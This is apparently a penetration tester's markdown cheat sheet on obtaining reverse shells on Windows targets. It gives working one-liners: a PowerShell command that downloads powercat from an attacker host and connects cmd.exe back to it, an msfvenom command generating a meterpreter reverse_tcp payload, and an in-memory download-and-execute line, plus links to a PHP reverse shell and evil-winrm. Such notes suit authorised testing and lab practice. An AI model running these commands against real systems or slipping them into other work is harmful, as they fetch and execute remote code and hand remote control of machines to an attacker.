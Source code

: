 
# Guide

1. If you have credentials, see [[3. Exploitation/Operating System Specific/Windows/Tooling/Impacket|Impacket]]

# PowerShell

## Nishang

[[Nishang]]
## Powercat

```
c:\\windows\\SysNative\\WindowsPowershell\\v1.0\\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.19.62:8000/powercat.ps1'); powercat -c 192.168.19.62 -p 443 -e cmd.exe
```
# PHP

[GitHub - Dhayalanb/windows-php-reverse-shell: Simple php reverse shell implemented using binary .](https://github.com/Dhayalanb/windows-php-reverse-shel[l)

# MSFVenom

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=445 -f psh -o www/met-445.ps1`

`iex(new-object net.webclient).downloadstring('http://10.10.14.5/met-445.ps1')`

# Loud Option

[GitHub - Hackplayers/evil-winrm: The ultimate WinRM shell for hacking/pentesting](https://github.com/Hackplayers/evil-winrm)